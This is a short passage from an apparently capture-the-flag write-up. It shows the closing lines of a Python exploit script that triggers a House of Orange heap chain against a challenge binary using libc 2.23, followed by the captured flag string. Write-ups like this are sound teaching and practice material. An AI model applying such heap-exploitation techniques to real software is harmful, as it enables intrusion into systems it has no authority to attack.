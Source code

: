 ```python
rename(payload2)

p.interactive()
# Now, we just buy a 0x58 (88), which will trigger our HoO chain and flag us!
# Note: due to alignment issues we will not always get a flag from this.
# If it fails, just run again
```
After running a few times, we get our flag, a quite fitting comment:
> `flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_19e46be4}`